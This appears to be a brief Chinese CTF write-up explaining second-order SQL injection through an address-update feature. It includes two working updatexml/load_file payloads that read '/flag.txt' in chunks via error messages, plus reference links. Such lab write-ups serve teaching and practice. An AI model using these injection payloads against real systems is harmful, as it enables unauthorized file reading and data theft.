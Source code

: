   

如果第一次修改地址的时候，构造一个含SQL语句特殊的payload，然后在第二次修改的时候随便更新一个正常的地址，那个之前没有触发SQL注入的payload就会被触发。

  

所以进行二次注入攻击。

  
  

[LOAD_FILE(filename](https://www.yiibai.com/mysql/mysql_function_load_file.html)

  

[updatexml](https://www.cnblogs.com/c1047509362/p/12806297.html)

  

<hr>

  

构造payload：

  

```sql

1' or updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30))),1)#

1' or updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,60))),1)#

```

  

[具体操作参考这个](https://blog.csdn.net/nigo134/article/details/119487058?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-119487058-blog-119929199.235%5Ev40%5Epc_relevant_3m_sort_dl_base4&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-119487058-blog-119929199.235%5Ev40%5Epc_relevant_3m_sort_dl_base4&utm_relevant_index=2)
